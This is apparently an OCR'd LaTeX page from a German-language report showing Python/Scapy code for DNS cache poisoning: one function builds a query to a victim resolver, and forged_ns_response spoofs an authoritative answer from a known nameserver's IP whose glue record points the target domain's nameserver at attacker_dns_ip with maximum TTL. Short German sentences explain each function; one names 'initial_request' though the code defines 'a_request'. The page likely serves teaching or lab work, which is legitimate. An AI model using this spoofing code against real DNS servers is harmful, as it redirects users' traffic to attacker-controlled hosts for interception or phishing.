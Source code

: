 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
def a_request(domain):
    return IP(dst=victim_dns_ip) / UDP(dport=victim_dns_port_in) / DNS(
        id=42,
        qr=0,
        opcode=0,
        rd=1,
        ra=0,
        qdcount=1,
        ancount=0,
        nscount=0,
        arcount=0,
        qd=DNSQR(qname=domain, qtype='A', qclass='IN'),
        an=0,
        ns=0,
        ar=0
    )
\end{lstlisting}
\end{center}
Die Funktion initial\_request generiert eine Reguläre DNS-Anfrage, um den Ziel-Server auf zu fordern die Ziel-Domain auf zu lösen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(
        sport=53, dport=victim_dns_port_out) / DNS(
        id=id,  # Query ID / transaction id
        qr=1,  # QR (Query / Response) 1=response
        opcode=0,  # Set by client to 0 for a standard query, 0:"QUERY",1:"IQUERY",2:"STATUS"
        aa=1,  # Set to 1 in a server response if this
         	   #dns_response is Authoritative, 0 if not.
        tc=0,
        # Set to 1 in a server response if the dns_response 
        #can't fit in the 512-byte limit of a UDP packet response
        rd=0,  # RD (Recursion Desired)
        ra=0,  # RA (Recursion Available), set by server: will (1) or won't (0) support recursion
        z=0,  # This is reserved and must be zero
        rcode=0,  # Response code from the server: indicates success or failure
        # 0:"ok", 1:"format-error", 2:"server-failure", 3:"name-error", 
        #4:"not-implemented", 5:"refused"
        qdcount=1,  # Question record count
        ancount=0,  # Answer count
        nscount=1,  # authority count
        arcount=1,  # additional record count
        # AD and CD bits are defined in RFC 2535
        ad=0,  # # Authentic Data
        cd=0,  # Checking Disabled (0/1)
        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=0,
        ns=DNSRR(rrname=target_domain, type='NS', rdata=known_ns_domain, ttl=MAX_TTL),
        ar=DNSRR(rrname=known_ns_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}
Mit der Funktion forged\_ns\_response werden generische Antwortpakete generiert.
\end{document}
